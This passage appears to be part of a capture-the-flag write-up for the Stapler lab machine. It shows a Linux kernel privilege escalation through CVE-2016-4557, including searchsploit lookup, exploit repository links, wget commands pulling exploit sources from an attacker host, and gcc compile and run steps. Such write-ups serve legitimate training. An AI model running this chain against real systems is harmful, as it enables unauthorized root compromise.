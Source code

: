 ### Searchsploit
```shell
searchsploit "ubuntu 16.04"
```
![01-Stapler-22](00-Assets/01-Stapler-22.png)
- We tried different exploits but the one that worked was `39772.txt
### CVE-2016-4557 - EDB-ID-39772
- https://www.exploit-db.com/exploits/39772
This page lead us to the following repository where the exploit was shared divided in three `.c` files

- https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.4.0-21-generic/CVE-2016-4557

In this repository we found the following three files that must to be transferred and compiled in our victim host.
```shell
hello.c
suidhelper.c
doubleput.c
```
#### Python3 Web Server
```shell
python3 -m http.server
```
#### Transferring Files
```shell
wget http://192.168.45.184:8000/hello.c
wget http://192.168.45.184:8000/suidhelper.c
wget http://192.168.45.184:8000/doubleput.c
```
#### Compiling
```shell
gcc -o hello hello.c -Wall -std=gnu99 `pkg-config fuse --cflags --libs`
gcc -o suidhelper suidhelper.c -Wall
gcc -o CVE-2016-4557 doubleput.c -Wall
```
#### Executing Exploit
```shell
./CVE-2016-4557
```